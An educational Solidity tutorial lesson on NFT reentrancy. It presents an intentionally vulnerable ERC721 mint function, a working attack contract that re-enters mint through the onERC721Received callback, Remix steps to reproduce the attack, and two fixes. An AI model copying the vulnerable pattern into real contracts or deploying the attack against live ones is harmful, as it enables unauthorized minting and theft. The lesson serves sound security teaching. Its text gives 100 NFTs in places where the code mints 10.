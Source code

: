 ```yaml
---
title: S16. NFT Reentrancy Attack
tags:
    - solidity
    - security
    - fallback
    - nft
    - erc721
    - erc1155
---
```


# WTF Solidity S16. NFT Reentrancy Attack

Recently, I have been revisiting Solidity, consolidating the finer details, and writing "WTF Solidity" tutorials for newbies. 

Twitter: [@0xAA_Science](https://twitter.com/0xAA_Science) | [@WTFAcademy_](https://twitter.com/WTFAcademy_)

Community: [Discord](https://discord.gg/5akcruXrsk)｜[Wechat](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)｜[Website wtf.academy](https://wtf.academy)

Codes and tutorials are open source on GitHub: [github.com/AmazingAng/WTF-Solidity](https://github.com/AmazingAng/WTF-Solidity)

English translations by: [@to_22X](https://twitter.com/to_22X)

-----

In this lesson, we will discuss the reentrancy vulnerability in NFT contracts and attack a vulnerable NFT contract to mint 100 NFTs.

## NFT Reentrancy Risk

In [S01 Reentrancy Attack](https://github.com/AmazingAng/WTFSolidity/blob/main/S01_ReentrancyAttack/readme.md), we discussed that reentrancy attack is one of the most common attacks in smart contracts, where an attacker exploits contract vulnerabilities (e.g., `fallback` function) to repeatedly call the contract and transfer assets or mint a large number of tokens. When transferring NFTs, the contract's `fallback` or `receive` functions are not triggered. So why is there a reentrancy risk?

This is because the NFT standards ([ERC721](https://github.com/AmazingAng/WTFSolidity/blob/main/34_ERC721/readme.md)/[ERC1155](https://github.com/AmazingAng/WTFSolidity/blob/main/40_ERC1155/readme.md)) have introduced secure transfers to prevent users from accidentally sending assets to a black hole. If the recipient address is a contract, it will call the corresponding check function to ensure that it is ready to receive the NFT asset. For example, the `safeTransferFrom()` function of ERC721 calls the `onERC721Received()` function of the target address, and a hacker can embed malicious code in it to launch an attack.

We have summarized the functions in ERC721 and ERC1155 that have potential reentrancy risks:

![](./img/S16-1.png)

## Vulnerable Example

Now let's learn an example of an NFT contract with a reentrancy vulnerability. This is an `ERC721` contract where each address can mint one NFT for free, but we can exploit the reentrancy vulnerability to mint multiple NFTs at once.

### Vulnerable Contract

The `NFTReentrancy` contract inherits from the `ERC721` contract. It has two main state variables: `totalSupply` to track the total supply of NFTs and `mintedAddress` to keep track of addresses that have already minted to prevent a user from minting multiple times. It has two main functions:
- Constructor: Initializes the name and symbol of the `ERC721` NFT.
- `mint()`: Mint function where each user can mint one NFT for free. **Note: This function has a reentrancy vulnerability!**

```solidity
contract NFTReentrancy is ERC721 {
    uint256 public totalSupply;
    mapping(address => bool) public mintedAddress;
    // Constructor to initialize the name and symbol of the NFT collection
    constructor() ERC721("Reentry NFT", "ReNFT"){}

    // Mint function, each user can only mint 1 NFT
    // Contains a reentrancy vulnerability
    function mint() payable external {
        // Check if already minted
        require(mintedAddress[msg.sender] == false);
        // Increase total supply
        totalSupply++;
        // Mint the NFT
        _safeMint(msg.sender, totalSupply);
        // Record the minted address
        mintedAddress[msg.sender] = true;
    }
}
```

### Attack Contract

The reentrancy vulnerability in the `NFTReentrancy` contract lies in the `mint()` function, which calls the `_safeMint()` function in the `ERC721` contract, which in turn calls the `_checkOnERC721Received()` function of the recipient address. If the recipient address's `_checkOnERC721Received()` contains malicious code, an attack can be performed.

The `Attack` contract inherits the `IERC721Receiver` contract and has one state variable `nft` that stores the address of the vulnerable NFT contract. It has three functions:
- Constructor: Initializes the address of the vulnerable NFT contract.
- `attack()`: Attack function that calls the `mint()` function of the NFT contract and initiates the attack.
- `onERC721Received()`: ERC721 callback function with embedded malicious code that repeatedly calls the `mint()` function and mints 10 NFTs.

```solidity
contract Attack is IERC721Receiver {
    NFTReentrancy public nft; // Address of the NFT contract

    // Initialize the NFT contract address
    constructor(NFTReentrancy _nftAddr) {
        nft = _nftAddr;
    }
    
    // Attack function to initiate the attack
    function attack() external {
        nft.mint();
    }

    // Callback function for ERC721, repeatedly calls the mint function to mint 10 NFTs
    function onERC721Received(address, address, uint256, bytes memory) public virtual override returns (bytes4) {
        if(nft.balanceOf(address(this)) < 10){
            nft.mint();
        }
        return this.onERC721Received.selector;
    }
}
```

## Reproduce on `Remix`

1. Deploy the `NFTReentrancy` contract.
2. Deploy the `Attack` contract with the `NFTReentrancy` contract address as the parameter.
3. Call the `attack()` function of the `Attack` contract to initiate the attack.
4. Call the `balanceOf()` function of the `NFTReentrancy` contract to check the holdings of the `Attack` contract. You will see that it holds `10` NFTs, indicating a successful attack.

![](./img/S16-2.png)

## How to Prevent

There are two main methods to prevent reentrancy attack vulnerabilities: checks-effects-interactions pattern and reentrant guard.

1. Checks-Effects-Interactions Pattern: This pattern emphasizes checking the state variables, updating the state variables (e.g., balances), and then interacting with other contracts. We can use this pattern to fix the vulnerable `mint()` function:

  ```solidity
    function mint() payable external {
        // Check if already minted
        require(mintedAddress[msg.sender] == false);
        // Increase total supply
        totalSupply++;
        // Record the minted address
        mintedAddress[msg.sender] = true;
        // Mint the NFT
        _safeMint(msg.sender, totalSupply);
    }
  ```

2. Reentrant Lock: It is a modifier used to prevent reentrant functions. It is recommended to use [ReentrancyGuard](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/security/ReentrancyGuard.sol) provided by OpenZeppelin.

## Summary

In this lesson, we introduced the reentrancy vulnerability in NFTs and attacked a vulnerable NFT contract by minting 100 NFTs. Currently, there are two main methods to prevent reentrancy attacks: the checks-effects-interactions pattern and the reentrant lock.